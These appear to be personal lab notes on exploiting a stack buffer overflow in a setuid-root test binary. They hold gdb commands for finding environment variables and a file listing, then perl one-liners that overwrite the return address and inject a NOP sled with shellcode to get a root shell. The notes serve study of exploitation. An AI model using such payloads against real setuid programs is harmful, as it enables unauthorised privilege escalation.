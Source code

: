 gdb show environment


x/60s *((char **)environ)

x/s *((char **)environ)
x/s *((char **)environ + 1)



https://security.stackexchange.com/questions/13194/finding-environment-variables-with-gdb-to-exploit-a-buffer-overflow
https://shankaraman.wordpress.com/2015/06/07/finding-the-environment-variables-on-the-stack/
total 40



## this is the file perms and setuid status

-rw-r--r-- 1 cicorias cicorias   450 Mar 13 11:44 helloVuln4.c
-rwsr-xr-x 1 root     root     10040 Mar 13 11:39 helloVuln4
drwx------ 2 cicorias cicorias  4096 Mar 13 11:39 .
-rwx------ 1 root     root        30 Mar 13 11:36 hidden-root.txt
-rw-r--r-- 1 cicorias cicorias   320 Mar 13 11:26 makefile
-rw-rw-r-- 1 cicorias cicorias   317 Mar  3 18:45 NOTE.md
drwxrwxr-x 8 cicorias cicorias  4096 Feb 21 14:16 ..
-rw-r--r-- 1 cicorias cicorias    25 Feb 21 14:16 shell.bin


./helloVuln4 $(perl -e 'print "A"x28 . "\xd1\xdf\xff\xff"')

NFG
./helloVuln4 $(perl -e 'print "A"x28 . "\xd1\xdf\xff\xff" . "\x90"x10000')$(cat shell.bin)

